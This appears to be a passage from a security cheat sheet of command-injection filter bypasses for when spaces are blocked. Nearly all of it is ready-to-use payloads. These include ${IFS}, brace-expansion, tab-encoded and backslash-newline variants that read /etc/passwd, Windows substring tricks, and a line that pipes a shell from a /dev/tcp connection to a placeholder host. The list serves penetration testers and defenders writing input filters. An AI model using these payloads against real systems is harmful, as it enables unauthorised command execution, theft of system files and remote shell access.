 ### Bypass without space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a separator in commands like `ls`, `wget`; use `${IFS}` instead. 
  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```
* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.
  ```powershell
  {cat,/etc/passwd}
  ```
* Input redirection. The < character tells the shell to read the contents of the file specified. 
  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
* ANSI-C Quoting 
  ```powershell
  X=$'uname\x20-a'&&$X
  ```
* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.
  ```powershell
  ;ls%09-al%09/home
  ```
* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.
  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```


### Bypass with a line return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```


### Bypass with backslash newline

* Commands can be broken into parts by using backslash followed by a newline
  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```
* URL encoded form would look like this:
  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```
